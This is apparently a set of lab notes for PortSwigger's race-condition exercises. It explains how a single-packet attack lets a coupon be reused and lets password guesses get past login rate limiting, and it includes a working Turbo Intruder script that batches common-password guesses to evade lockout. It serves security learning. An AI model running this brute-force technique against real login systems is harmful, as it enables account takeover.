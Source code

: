 # Race conditions

- https://portswigger.net/web-security/race-conditions
- https://portswigger.net/research/smashing-the-state-machine
- https://www.youtube.com/watch?v=tKJzsaB1ZvI
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py

## Limit overrun race conditions

While making a purchase we are able to submit a coupon for 20% discount. 

`POST /cart/coupon` request applying the coupon can be intercepted and once we do that we can perform `single-packet-attack` using Burp Turbo Intruder, which makes use of HTTP2 streaming, stacking multiple requests in one connection, `Nagle's algorithm` and `last byte synchronization`. This send 20-30 request without their last byte, each in different stream. Then in the single frame send the ending of each frame in different streams, causing the server to accept and start calculating them all in nearly the same time.

Performing this attack for that requests reveals that there is not well handled time difference between accepting the coupon and devalidating it, which causes to apply the same coupon multiple times, solving the lab.

## Bypassing rate limits via race conditions

After too many failed request attempts the applications blocks us from performing further login tries for some increasing period of time.

We can observe, that sending a few requests one by one, starts responding with block error, but when sending 20 request at the same tim with `single-packet-attack`, the application always responds with `Incorrrect username or password`, and not with block error, because of that we can suspect race condition bug in this rate limiting functionality. 

Using Turbo Intruder code shown below, we are able to conduct `single-packet-attack`, performing 20 password guesses every block (every 60, 120, 180... seconds), because the application incorrecly handle time between checking the condition for block and blocking the account.

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
import time

REQUESTS_PER_GATE = 20
PASSWORDS = [
    "123123",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000",
]

def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    index = 0
    wait_seconds = 0
    for pwd in PASSWORDS:
        index += 1
        engine.queue(target.req, [pwd], gate='race')
        if index >= REQUESTS_PER_GATE:
            # once every 'race' tagged request has been queued
            # invoke engine.openGate() to send them in sync
            time.sleep(wait_seconds + 5)
            engine.openGate('race')
            wait_seconds += 60
            index = 0
            

def handleResponse(req, interesting):
    table.add(req)
```
